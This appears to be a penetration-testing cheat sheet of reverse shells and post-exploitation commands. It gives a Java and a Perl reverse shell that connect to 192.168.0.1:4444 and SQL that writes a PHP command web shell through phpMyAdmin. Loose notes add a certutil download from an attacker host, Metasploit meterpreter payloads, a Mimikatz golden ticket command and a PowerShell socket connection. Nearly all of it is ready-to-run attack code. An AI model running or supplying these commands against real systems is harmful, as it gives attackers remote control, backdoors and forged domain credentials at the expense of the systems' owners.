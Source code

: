 ### Windows Reverse Shell
```Java
String host="192.168.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

***

## Perl

### Reverse Shell
```perl
perl -MIO -e 'use Socket;$ip="192.168.0.1";$port=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($port,inet_aton($ip)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

***

## PhpmyAdmin

Write a CMD shell into a file with the right permissions. Issue the following select.
(Try different paths for different webservers)

*Windows:*
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

*Unix:*
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

***

certutil -urlcache -split -f http://<your_kali_ip>/<file_name> <destination_path>

use post/multi/manage/shell_to_meterpreter
basic payload set payload windows/meterpreter/reverse_tcp

kerberos::golden /user:pete /domain:<domain_name> /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:500

msfvenom -f psh-reflection

sharpy asp.net shell

ping powershell

$client = New-Object System.Net.Sockets.TcpClient; $client.Connect("192.168.45.179", 8000); $stream = $client.GetStream(); $writer = New-Object System.IO.StreamWriter($stream); $writer.Write("a"); $writer.Flush(); $writer.Close(); $client.Close()
upgrade shell to meterpreter shell  sessions -u 1
